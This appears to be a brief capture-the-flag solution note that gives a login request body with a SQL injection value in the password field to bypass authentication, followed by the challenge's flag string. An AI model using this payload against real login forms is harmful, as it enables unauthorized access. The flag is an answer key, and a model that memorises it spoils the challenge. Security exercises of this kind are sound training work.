 # Trick

```
username=admin&password='' or 1&password=7
```

# Flag

```
AMZF14yknOn9Uc57uKB02jnYuhplYka3
```
